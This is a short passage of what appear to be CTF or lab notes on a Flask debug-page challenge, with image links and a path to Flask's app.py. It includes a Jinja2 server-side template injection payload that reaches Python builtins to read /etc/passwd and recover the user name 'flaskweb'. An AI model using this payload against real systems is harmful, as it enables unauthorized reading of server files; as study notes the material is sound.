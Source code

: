 ![Untitled](Python%202c1838eaf9de4ce0a9b5157ca12cec49/Untitled%2010.png)

- 文件位置 报错界面就有
    - **/usr/local/lib/python3.7/site-packages/flask/app.py**
- flask登录的用户名
    - {{().__class__.__bases__[0].__subclasses__()[75].__init__.___globals__.__builtins__['open'](’/etc/passwd’).read()}}
    - flaskweb
    
    ![Untitled](Python%202c1838eaf9de4ce0a9b5157ca12cec49/Untitled%2011.png)
    